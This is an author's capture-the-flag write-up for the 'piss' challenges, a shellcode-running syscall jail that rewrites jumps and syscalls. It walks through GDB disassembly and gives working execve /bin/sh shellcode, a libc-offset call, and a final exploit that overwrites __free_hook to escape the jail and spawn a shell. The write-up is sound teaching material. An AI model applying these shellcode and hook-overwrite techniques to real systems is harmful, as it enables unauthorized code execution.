


piss write-up
=============

Solves: 500 (0 solves) x2
Category: rev (really, revpwn)


This is the author's write-up for the `piss` series of challenges.


piss_1
======

You are given two binaries, `piss_1` and `piss_2`. When you run each of them, they output the same thing:

```
Give me x86_64 code as hex, and I will run it.
Unfortunately, some functionality is restricted.

Type some hex (end with newline):
```

This may remind you of traditional syscall jails that use the seccomp kernel-based filtering. But you'll quickly realize that something
is different when you're unable to find any seccomp-related functions in either binary.

The first thing I expected people to try is sending the program some code. Simple shellcode from pwntools has the following result (see demo1.py):

```
[*] Switching to interactive mode

Executing...
syscall 3b not allowed
```

Syscall 0x3b = 59, that's the [execve syscall](https://filippo.io/linux-syscall-table/). So it's not going to be quite this easy -- the program detected that we were
trying to do this syscall and somehow detected this and exited. If we look for the message that was printed, we find the following code:



This may not be clear because the version of Ghidra I'm on isn't correctly showing the arguments to printf, so I told Ghidra about them manually and got the following:
```c
  if (*(ulong *)param_1 != 1) {
    __printf_chk(1,"syscall %lx not allowed\n",*(ulong *)param_1);
    return 0xffffffff;
  }
```

So, if our syscall number is anything other than 1, we will print that the syscall is not allowed, and return an error code. Syscall 1 is the 'write' syscall, so the next thing to try might be to make a `write` syscall and verify you
can send yourself a "hello world" or whatever (it works, as expected, see demo3.py).

Just a little reversing
-------

To solve `piss_1`, it really wasn't intended that you do all that much reversing. But if you just check out `main`, you'll find this chunk of code:



So it's going to do something with our input (specifically, `strtol` is called to convert two characters at a time to hex), then it's going to call `process_bb` which does *something* and then we are apparently ready to execute:

```c
      puts("Executing...");
      prepare_enter_jit();
      (*(code *)&DAT_13371337000)();
```

So, it's going to jump to code at 0x13371337000, very cool. Presumably it puts the code we enter at this address? We should check, just to be sure.

poking around in gdb
-----

I'm going to spend pretty much the rest of the write-up just poking at this program in GDB. I should note that breakpoints in the 0x13371337000 JIT segement
don't seem to work correctly because we are overwriting this code after the breakpoint gets placed -- so we will place our breakpoints in the locations that we jump back into the JIT (like the `(*(code *)&DAT_13371337000)();` call above)

Here, I'll use the shellcode that pwntools generates as a test:
```
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

which assembled is:
```
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```
(see demo1.py)

I'm going to set a breakpoint at the call, and we'll look to see what code we are about to run.
```
$ gdb ./piss1
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
95 commands loaded for GDB 9.2 using Python engine 3.8
[*] 1 command could not be loaded, run `gef missing` to know why.
Reading symbols from ./piss1...
(No debugging symbols found in ./piss1)
gef➤  b *(main+0x1f8)
Breakpoint 1 at 0x23c8
gef➤  ru
Starting program: /home/andrew/osuctf/buckeyectf-2021/rev/piss/solve/demo/piss1 
Give me x86_64 code as hex, and I will run it.
Unfortunately, some functionality is restricted.

Type some hex (end with newline):
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
Executing...

Breakpoint 1, 0x00005555555563c8 in main ()    

gef➤  disass 0x13371337000,+128
Dump of assembler code from 0x13371337000 to 0x13371337080:
=> 0x0000013371337000:  push   0x68
   0x0000013371337002:  movabs rax,0x732f2f2f6e69622f
   0x000001337133700c:  push   rax
   0x000001337133700d:  mov    rdi,rsp
   0x0000013371337010:  push   0x1016972
   0x0000013371337015:  xor    DWORD PTR [rsp],0x1010101
   0x000001337133701c:  xor    esi,esi
   0x000001337133701e:  push   rsi
   0x000001337133701f:  push   0x8
   0x0000013371337021:  pop    rsi
   0x0000013371337022:  add    rsi,rsp
   0x0000013371337025:  push   rsi
   0x0000013371337026:  mov    rsi,rsp
   0x0000013371337029:  xor    edx,edx
   0x000001337133702b:  push   0x3b
   0x000001337133702d:  pop    rax
   0x000001337133702e:  pushw  0x0
   0x0000013371337032:  pushw  0x133
   0x0000013371337036:  pushw  0x7133
   0x000001337133703a:  pushw  0x7030
   0x000001337133703e:  pushw  0x0
   0x0000013371337042:  pushw  0x5555
   0x0000013371337046:  pushw  0x5555
   0x000001337133704a:  pushw  0x725b
   0x000001337133704e:  jmp    QWORD PTR [rsp]
   0x0000013371337051:  xor    rax,rax
   0x0000013371337054:  inc    QWORD PTR [rax]
   0x0000013371337057:  add    BYTE PTR [rax],al
   0x0000013371337059:  add    BYTE PTR [rax],al
   0x000001337133705b:  add    BYTE PTR [rax],al
   0x000001337133705d:  add    BYTE PTR [rax],al
   0x000001337133705f:  add    BYTE PTR [rax],al
   0x0000013371337061:  add    BYTE PTR [rax],al
   0x0000013371337063:  add    BYTE PTR [rax],al

```

The code at 0x13371337000 is exactly what we input, until we get to the syscall. Instead of the syscall we have this sequence:

```assembly
   0x000001337133702e:  pushw  0x0
   0x0000013371337032:  pushw  0x133
   0x0000013371337036:  pushw  0x7133
   0x000001337133703a:  pushw  0x7030
   0x000001337133703e:  pushw  0x0
   0x0000013371337042:  pushw  0x5555
   0x0000013371337046:  pushw  0x5555
   0x000001337133704a:  pushw  0x725b
   0x000001337133704e:  jmp    QWORD PTR [rsp]
   0x0000013371337051:  xor    rax,rax
   0x0000013371337054:  inc    QWORD PTR [rax]
```

This is a bit weird -- we push a bunch of words... this is equivalent to pushing two 64-bit immediates onto the stack.

Then, we jump to one of the addresses we just pushed!
```
jmp    QWORD PTR [rsp]
```

And then we have this sequence, which zeros rax and then dereferences it... that will always crash so we can assume that isn't reached:

```assembly
   0x0000013371337051:  xor    rax,rax
   0x0000013371337054:  inc    QWORD PTR [rax]
```


So that jump is going to take us to the address that we just pushed on the top of the stack, which is 0x55555555725b

```assembly
gef➤  disass 0x55555555725b,+128
Dump of assembler code from 0x55555555725b to 0x5555555572db:
   0x000055555555725b <to_runtime_syscall+0>:   push   rsp
   0x000055555555725c <to_runtime_syscall+1>:   pushf  
   0x000055555555725d <to_runtime_syscall+2>:   push   r15
   0x000055555555725f <to_runtime_syscall+4>:   push   r14
   0x0000555555557261 <to_runtime_syscall+6>:   push   r13
   0x0000555555557263 <to_runtime_syscall+8>:   push   r12
   0x0000555555557265 <to_runtime_syscall+10>:  push   r11
   ...
```

So we jump to some code that is supposed to handle syscalls. We'll look at this in more detail when we look to solve `piss_2`. But maybe it'd be useful to review what we saw:

- It takes our input, decodes it and puts it in 0x13371337000
- The instructions are the same, up until syscalls (and maybe other things, we'll try jumps in a moment)


Escape ideas
-----

Without the ability to open any files, the `write` syscall isn't going to be enough to print the flag. We need unrestricted code execution so we can run whatever syscalls we want -- ideally we'd just pop a shell (Did I say `rev`? It's really `revpwn`.)

Some ideas for how we might get around the syscall jail:

1. Jumps? What happens if we just jump to a syscall somewhere else that hasn't been overwritten?
2. Can we write to anywhere in memory? Can we corrupt anything interesting that gets used outside of the jail?
3. ...? idk, don't really have any more ideas.. yet.


Let's consider these in order.

### Idea 1: Jumps

The simplest example you could imagine might just take the shellcode, move it down to 0x13371337200, at the 0x13371337000 place a jump to 0x13371337200

```py
code = """
jmp L1

.align 0x200
L1:
%s
""" % (shellcraft.amd64.linux.sh(),)

```
(see demo2.py)

Let's check what our ("sanitized"?) code looks like:

```
gef➤  disass 0x13371337000,+64
Dump of assembler code from 0x13371337000 to 0x13371337040:
=> 0x0000013371337000:  pushw  0x0
   0x0000013371337004:  pushw  0x133
   0x0000013371337008:  pushw  0x7133
   0x000001337133700c:  pushw  0x7200
   0x0000013371337010:  pushw  0x0
   0x0000013371337014:  pushw  0x5555
   0x0000013371337018:  pushw  0x5555
   0x000001337133701c:  pushw  0x72de
   0x0000013371337020:  jmp    0x13371337024
   0x0000013371337022:  jmp    0x13371337027
   0x0000013371337024:  jmp    QWORD PTR [rsp]
   0x0000013371337027:  xor    rax,rax
   0x000001337133702a:  inc    QWORD PTR [rax]
   0x000001337133702d:  nop    DWORD PTR cs:[rax+rax*1+0x0]
   0x0000013371337036:  data16 nop WORD PTR cs:[rax+rax*1+0x0]
End of assembler dump.
```

So it took our `jmp` and replaced it with a familiar sequence of pushes, followed by a jump to `0x0000013371337024` and the familiar `jmp    QWORD PTR [rsp]`.

This time, we are jumping to 0x5555555572de:

```
gef➤  disass 0x5555555572de,+64
Dump of assembler code from 0x5555555572de to 0x55555555731e:
   0x00005555555572de <to_runtime_jump+0>:      push   rsp
   0x00005555555572df <to_runtime_jump+1>:      pushf  
   0x00005555555572e0 <to_runtime_jump+2>:      push   r15
   0x00005555555572e2 <to_runtime_jump+4>:      push   r14
   0x00005555555572e4 <to_runtime_jump+6>:      push   r13
   0x00005555555572e6 <to_runtime_jump+8>:      push   r12
   0x00005555555572e8 <to_runtime_jump+10>:     push   r11
   0x00005555555572ea <to_runtime_jump+12>:     push   r10
   0x00005555555572ec <to_runtime_jump+14>:     push   r9
   0x00005555555572ee <to_runtime_jump+16>:     push   r8
   0x00005555555572f0 <to_runtime_jump+18>:     push   rdi
   0x00005555555572f1 <to_runtime_jump+19>:     push   rsi
...
```

This looks very similar to `to_runtime_sycall` at the start, but presumably it does something different (we'll investigate more later).

But let's see how our shellcode is doing:

**Before we take the jump**
```
gef➤  disass 0x13371337200,+64
Dump of assembler code from 0x13371337200 to 0x13371337240:
   0x0000013371337200:  push   0x68
   0x0000013371337202:  movabs rax,0x732f2f2f6e69622f
   0x000001337133720c:  push   rax
   0x000001337133720d:  mov    rdi,rsp
   0x0000013371337210:  push   0x1016972
   0x0000013371337215:  xor    DWORD PTR [rsp],0x1010101
   0x000001337133721c:  xor    esi,esi
   0x000001337133721e:  push   rsi
   0x000001337133721f:  push   0x8
   0x0000013371337221:  pop    rsi
   0x0000013371337222:  add    rsi,rsp
   0x0000013371337225:  push   rsi
   0x0000013371337226:  mov    rsi,rsp
   0x0000013371337229:  xor    edx,edx
   0x000001337133722b:  push   0x3b
   0x000001337133722d:  pop    rax
   0x000001337133722e:  syscall 
```

It's intact!

If we step through to the end of `to_runtime_jump`, we'll find that we somehow return to the destination of the jump:

```
────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55555555735a <to_runtime_jump+124> popf   
   0x55555555735b <to_runtime_jump+125> pop    rsp
   0x55555555735c <to_runtime_jump+126> add    rsp, 0x8
 → 0x555555557360 <to_runtime_jump+130> ret    
   ↳  0x13371337200                  push   0x68
      0x13371337202                  movabs rax, 0x732f2f2f6e69622f
      0x1337133720c                  push   rax
      0x1337133720d                  mov    rdi, rsp
      0x13371337210                  push   0x1016972
      0x13371337215                  xor    DWORD PTR [rsp], 0x1010101
────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "piss1", stopped 0x555555557360 in to_runtime_jump (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────── trace ────
```

... but our syscall has now suffered the same fate before we were able to execute it.

```assembly
gef➤  disass 0x13371337200,+64
Dump of assembler code from 0x13371337200 to 0x13371337240:
   0x0000013371337200:  push   0x68
   0x0000013371337202:  movabs rax,0x732f2f2f6e69622f
   0x000001337133720c:  push   rax
   0x000001337133720d:  mov    rdi,rsp
   0x0000013371337210:  push   0x1016972
   0x0000013371337215:  xor    DWORD PTR [rsp],0x1010101
   0x000001337133721c:  xor    esi,esi
   0x000001337133721e:  push   rsi
   0x000001337133721f:  push   0x8
   0x0000013371337221:  pop    rsi
   0x0000013371337222:  add    rsi,rsp
   0x0000013371337225:  push   rsi
   0x0000013371337226:  mov    rsi,rsp
   0x0000013371337229:  xor    edx,edx
   0x000001337133722b:  push   0x3b
   0x000001337133722d:  pop    rax
   0x000001337133722e:  pushw  0x0
   0x0000013371337232:  pushw  0x133
   0x0000013371337236:  pushw  0x7133
   0x000001337133723a:  pushw  0x7230
   0x000001337133723e:  pushw  0x0
End of assembler dump.
```

**So, we find out that the jail follows jumps and sanitizes
each jump target before executing. Very sad.**

There are questions here that you could investigate:
- What if we set up the stack and `ret` to a controlled address, will it sanitize the code we return to (answer: yes)
- What about indirect jumps? "long jumps"? (answer: still sanitized)
- Is there **any** x86 control flow instruction that isn't sanitized by this jail? (answer: probably not)

One way to test this out a bit is to try calling a libc function like `printf`. But where libc?

Maybe there are some interesting values leftover in registers when we start executing at 0x13371337000?

```
$rax   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$rbx   : 0x30                                                                                                                                                          
$rcx   : 0x00007ffff6facb0b  →  <mprotect+11> cmp rax, 0xfffffffffffff001                                                                                              
$rdx   : 0x5                                                                                                                                                           
$rsp   : 0x00007fffffffd288  →  0x00005555555563ca  →  <main+506> jmp 0x555555556374 <main+420>                                                                        
$rbp   : 0x2f                                                                                                                                                          
$rsi   : 0x57                                                                                                                                                          
$rdi   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$rip   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$r8    : 0xd                                                                                                                                                           
$r9    : 0x1c                                                                                                                                                          
$r10   : 0x55550000                                                                                                                                                    
$r11   : 0x212                                                                                                                                                         
$r12   : 0x00007fffffffd2a0  →  "6a6848b82f62696e2f2f2f73504889e7687269010181342401[...]"                                                                              
$r13   : 0x0000013371337000  →  0x6e69622fb848686a                                                                                                                     
$r14   : 0x00007
```

$rcx points into libc! So we can compute offsets to other functions from this one. ie:

```assembly
pushq 0xf00d
lea rdi, [rip+lol]

/* offset to printf */
subq rcx, 0xb6cfb

/* As a bonus, here's how to call system (will fail because jail) */
/* subq rcx, 0xfa00 */

movq rax, 0 # printf requires 0 here
call rcx

.align 256
lol:
.string "hellooo world\n"

```

And this actually works (see demo4.py) and prints "hellooo world".

### Idea 2: Corrupt memory

Despite not being able to execute syscalls, memory reads and writes are untouched, so we have arbitrary write anywhere in this program. That is very powerful, and it turns out this is the key
to the (intended) solution to piss_1.

When you have arbitrary write in any other kind of program, a popular target is always `__free_hook`. This is a function pointer in libc's data segment that is
called whenever a chunk is free'd.

The key insight we need to have is that there *is* code that runs to do some sort of sanitization. We'll look in more detail at this to solve `piss_2`, but a large portion of the code is in `process_bb`, which is called whenever you take a jump or syscall:

- `to_runtime_jump` => `runtime_entry::handle_jmp` => `process_bb`
- `to_runtime_syscall` => `runtime_entry::handle_syscall` => `process_bb`
- ... (we will look in more detail in `piss_2`. 

**The code that reads our instructions and replaces syscalls and jumps also uses libc.** So if we set `__free_hook` to somewhere to jump, it will jump there whenever the sanitization code does a free!

So to escape the jail and jump to our unsanitized shellcode, we can just set `__free_hook` to the address of our shellcode. When something gets free'd in the sanitization code, we will actually jump to our shellcode!

```assembly
/* Offset to free_hook */
add rcx, 0xD301D

/* Value to write in free_hook */
mov rax, 0x13371337050

/* Overwrite free_hook */
mov qword ptr [rcx], rax

/* Go jump somewhere, really doesn't matter where */
mov rax, 0x13371337050
jmp rax

/* This is a NOP sled so that 0x13371337050 lands here
and then slides down to our shellcode */
.rept 64
nop
.endr

/* Shellcode */
mov rdi, 0x68732f6e69622f
push rdi
mov eax, 0x3b
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall

.align 256
lol:
.string "/bin/bash\\0"
```
(see exploit1.py)
